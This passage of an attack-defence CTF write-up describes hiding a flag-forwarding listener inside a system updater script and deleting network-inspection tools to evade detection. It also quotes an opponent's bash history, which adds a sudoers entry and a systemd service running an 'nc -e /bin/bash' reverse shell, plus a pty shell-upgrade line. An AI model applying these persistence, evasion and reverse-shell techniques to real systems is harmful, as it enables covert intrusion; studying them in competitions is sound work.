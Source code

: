 This basically listened on the socket for flags, then sent anything it received to the Discord webhook.

And it worked! I received the flags for 9 AM PST and 11 AM PST (among other traffic from scans and other people poking around), while being AFK and not maintaining any connections to the box. 

![flags](https://cdn.discordapp.com/attachments/767475492613521430/1110093206529523792/image.png)

Finally, the box was reset one more time. This time, I quickly got in and established my persistence, but I did not patch the vulnerabilities, as it was getting lonely in there :(

Because of this, my flag collector needed to be more stealthy than ever before. I decided to go a step further: injecting my flag collector code into a "normal" system process.

I settled on this process:
```
root        9096       1  0 23:21 ?        00:00:00 /usr/bin/python3 /usr/share/unattended-upgrades/unattended-upgrade-shutdown --wait-for-signal
```
This process was run by `unattended-upgrades.service`, a service that is responsible for automatic updates via `apt`. However, this was a python script, which meant that I could just change the code.

I edited `/usr/share/unattended-upgrades/unattended-upgrade-shutdown` and added my listener and discord webhook sender to the `main()` function, and restarted the service. I did not want the process being obviously listening on port 5000 to be obvious to people running commands like `ss`, so I conveniently deleted `/usr/bin/ss` and `/usr/bin/lsof`. While I was at it, I went ahead and deleted `/usr/bin/nc`, `/usr/bin/ncat`, `/usr/bin/netcat`, and `/usr/bin/tcpdump`. :wink:

## Defense
Mainly defense consisted of patching and killing persistence and shells. I covered patching in depth in a previous section, so here I will focus on shells and persistence.

Persistence for the most part was easy to spot. A few out of place services and cron jobs, for instance.

Some other competitors made it easy for me and left me their bash history :)

```
echo "nathaniel_singer ALL=(ALL:ALL) ALL" >> /etc/sudoers
cat /etc/sudoers
wall -n "HELLO UML HACKERS : ))) Wanna hear a joke? Stay tunedsudo -k" --no-banner
wall --help
wall -n "HELLO UML HACKERS : ))) Wanna hear a joke? Stay tunedwall --help" --nobanner
sudo tee -a /etc/systemd/system/system.service > /dev/null <<EOT
[Unit]
Description=Systemd service

[Service]
Type=oneshot
ExecStart=/usr/bin/nc -e /bin/bash (IP removed) 4240 2>/dev/null"

[Install]
WantedBy=multi-user.target
EOT

sudo systemctl daemon-reload; sudo systemctl enable system; sudo systemctl start system; sudo systemctl status system
cat /etc/systemd/system/system.service
sudo apt install --update nc
sudo apt install nc
sudo apt install netcat
PS1='${debian_chroot:+($debian_chroot)}\[\033[01;32m\]\u@\h\[\033[00m\]:\[\033[01;34m\]\w\[\033[00m\]\$ '; export TERM=xterm-256color
[...]
d) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```